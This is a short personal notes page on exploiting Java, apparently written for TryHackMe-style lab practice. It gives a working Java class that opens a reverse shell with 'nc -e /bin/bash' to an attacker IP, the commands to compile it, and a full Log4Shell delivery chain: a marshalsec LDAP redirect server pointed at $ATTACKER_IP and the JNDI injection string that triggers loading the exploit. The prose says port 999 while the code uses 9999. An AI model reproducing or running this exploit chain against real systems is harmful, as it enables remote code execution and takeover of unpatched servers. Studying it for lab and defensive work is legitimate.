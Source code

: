 # Exploiting Java

* **author**:: Nathan Acks
* **date**:: 2022-01-02

## Reverse Shell

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 is the IP you're catching the reverse shell at and 999 is the port of the listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

* [Using "netcat"](netcat.md)

## Delivery with Log4Shell

Delivery through a vulnerable version of Log4j is done through a four step process: Malicious string → LDAP lookup → load Java code over HTTP → reverse shell.

A simple Java LDAP server that will handle redirects is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

Once that's done you'll just need to fire up a quick web server to serve the exploit code above and a netcat listener and then find a way to deliver the malicious string (`${jndi:ldap://1.2.3.4:1389/Exploit}`, where 1.2.3.4 is the `$ATTACKER_IP` above) somewhere it will be logged.

Note that a number of other protocols are supported besides LDAP (the marchalsec server supports a few).

* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Quick-n-Dirty Python Web Server](quick-n-dirty-python-web-server.md)
